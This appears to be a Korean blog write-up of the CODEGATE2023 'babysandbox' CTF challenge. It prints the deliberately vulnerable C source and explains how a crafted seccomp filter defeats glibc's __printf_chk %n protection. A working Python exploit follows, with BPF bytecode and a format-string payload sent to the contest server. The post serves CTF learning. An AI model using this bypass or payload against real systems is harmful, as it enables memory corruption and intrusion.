 ```yaml
---
layout: post
date: 2023-06-18
title: CODEGATE2023 Quals babysandbox write-up
tags: [pwnable, seccomp, FSB, ]
categories: [CTF, CODEGATE2023, ]
---
```


## 문제 분석


---


```c
// gcc box.c -o box -no-pie

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <fcntl.h>
#include <unistd.h>
#include <linux/seccomp.h>
#include <sys/prctl.h>

#define FLAG_PATH "/flag"

int install_seccomp(uint8_t *filt, unsigned short len);
void vuln();
void read_flag();

uint32_t target = 0xdead;

int main(int argc, char **argv) {
    uint32_t filt_len;

    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    read(0, &filt_len, sizeof(uint32_t));
    if (filt_len > 0x200) {
        __printf_chk(1, "Too much T_T\n");
        return 1;
    }
    uint8_t *filt =  (unsigned char *)calloc(sizeof(uint8_t), filt_len);
    int res = read(0, filt, filt_len);
    if (res != filt_len) {
        __printf_chk(1, "Cannot read enough T_T\n");
        return 1;
    }

    if (install_seccomp(filt, (unsigned short)filt_len))
        return 1;

    vuln();

    return 0;
}

int install_seccomp(unsigned char *filt, unsigned short filt_len) {
    struct prog {
        unsigned short len;
        unsigned char *filt;
    } rule = {
        .len = filt_len >> 3,
        .filt = filt
    };

    if (prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) < 0) {
        __printf_chk(1, "Failed to prctl(PR_SET_NO_NEW_PRIVS) T_T\n");
         return 1;
    }
    if (prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &rule) < 0) { 
        __printf_chk(1, "Failed to prctl(PR_SET_SECCOMP) T_T\n");
         return 1;
    }
    return 0;
}

void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input);

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}

void read_flag() {
    int fd = open(FLAG_PATH, O_RDONLY);
    char flag_buf[0x100];

    if (fd < 0) {
        __printf_chk(1, "Failed to open flag, contact admin please T_T\n");
        exit(1);
    }

    memset(flag_buf, 0, sizeof(flag_buf));
    int res = read(fd, flag_buf, sizeof(flag_buf));

    if (res < 0) {
        __printf_chk(1, "Failed to read flag, contact admin please T_T\n");
        exit(1);        
    }
    close(fd);
    write(1, flag_buf, res);

    return;
}
```


입력 받은 seccomp 필터를 바이너리에 적용한 후에 FSB를 트리거 할 수 있게 해준다.


target을 0x1337로 변조하면 플래그를 출력해주지만, `printf_chk` 함수는 `%n`을 사용하지 못한다.


<br>


그러나 read-only 영역에서는 `%n`을 사용할 수 있으며, glibc에서는 `/proc/self/maps`를 열어 read-only 영역인지 판단한다.


<br>


`__readonly_area` 함수에서는 해당 포인터가 read-only 영역인지 확인한다. 하지만 fopen에 실패했을 경우 에러코드를 통해 해당 영역이 read-only 영역에 해당하는 지를 반환한다. 


```c
int
__readonly_area (const char *ptr, size_t size)
{
  const void *ptr_end = ptr + size;

  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
.
.
```


{: file='sysdeps/unix/sysv/linux/readonly-area.c'}


seccomp를 통해 `openat` 시스템콜을 막고 원하는 에러코드를 반환하도록 설정할 수 있다.


한가지 주의해야할 점은 flag 파일을 읽어들일 때도 `openat` 시스템콜을 사용하므로 인자로 플래그 파일명 포인터가 넘어왔을 때는 허용해주었다.


또한 `openat` 시스템콜은 rsi를 파일명 포인터로 받으므로 `A = args[1]`로 설정해주어야 한다.


```ruby
A = sys_number
A != openat ? ok : next
A = args[1]
A == 0x402147 ? ok : next
return ERRNO(2)
ok:
return ALLOW
```


이제 `%n`을 사용할 수 있으므로 FSB를 통해 값을 변조하면 된다.


## 익스플로잇


---


```python
import requests
import base64 
from pwn import*

send_payload:list[bytes] = []

bpf = b"\x20\x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00\x20\x00\x00\x00\x18\x00\x00\x00\x54\x00\x00\x00\xff\x00\x00\x00\x15\x00\x01\x00\x47\x00\x00\x00\x06\x00\x00\x00\x02\x00\x05\x00\x06\x00\x00\x00\x00\x00\xff\x7f"
send_payload.append(p32(len(bpf)))
send_payload.append(bytes(bpf))


payload = b''
payload += b'%' + b'4856' + b'c' # 0x1337
payload += b'%d%d%d%d%d%d%d%d%d%n'
payload += b'A' * (8 - (len(payload) % 8))
payload += p64(0x404088)
send_payload.append(payload)

result_payload = b''.join(send_payload)

res = requests.post('http://15.164.245.40:1400/', data={'payload':base64.b64encode(result_payload)})

print(res.text)
```


## 레퍼런스


---


[https://0xacb.com/2017/11/19/hxp-flag-store/](https://0xacb.com/2017/11/19/hxp-flag-store/)

